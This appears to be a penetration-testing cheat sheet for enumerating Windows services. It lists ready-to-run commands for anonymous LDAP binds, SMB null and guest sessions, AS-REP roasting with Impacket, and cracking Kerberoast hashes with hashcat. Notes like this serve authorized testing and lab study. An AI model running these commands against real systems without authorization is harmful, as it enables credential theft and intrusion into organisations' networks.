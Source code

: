 # Windows technologies
How to enumerate windows tech

# LDAP
## Look for anonymous binds
`ldapsearch -H ldap://<ip>:<port> -b "dc=domain,dc=local" -x`    
**Make sure to look for users in the Remote Management Users group**    

## Get users with
`./windapsearch.py --dc-ip <ip> -d domain.local -u "" -U`
​
# SMB
## enum4linux
enum4linux is used to enumerate info on Samba systems

`enum4linux -U -o <ip>`

## smbpasswd
If crackmapexec gives the following error: **STATUS_PASSWORD_MUST_CHANGE**    
Shortcut:
`echo -e "oldpasswd\nnewpasswd\nnewpasswd" | (smbpasswd -U uname -r <ip>)`
​
## Check for guest or null access
*(Try each command separately)*
```sh
enum4linux -a -u "" -p "" <ip> && enum4linux -a -u "guest" -p "" <ip>

smbmap -u "" -p "" -P 445 -H <ip> && smbmap -u "guest" -p "" -P 445 -H <ip>

smbclient -U '%' -L //<ip> && smbclient -U 'guest%' -L //
```

# Kerberos
## GetNPUsers.py
Impacket's `GetNPUsers.py` will attempt to harvest the non-preauth AS_REP responses for a given list of usernames

### Usage:
`python3 GetNPUsers.py test.local/ -dc-ip <ip> -usersfile usernames.txt -format hashcat -outputfile hashes`


## Kerberoasting
Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name.

### Cracking the ticket
```bash
hashcat -m 13100 --force <hash_file> <password_file>
```

#### References
- [https://www.crowdstrike.com/cybersecurity-101/kerberoasting/](https://www.crowdstrike.com/cybersecurity-101/kerberoasting/)


# Tools for all tech
## crackmapexec
This allows you to enumerate Active Directory environments.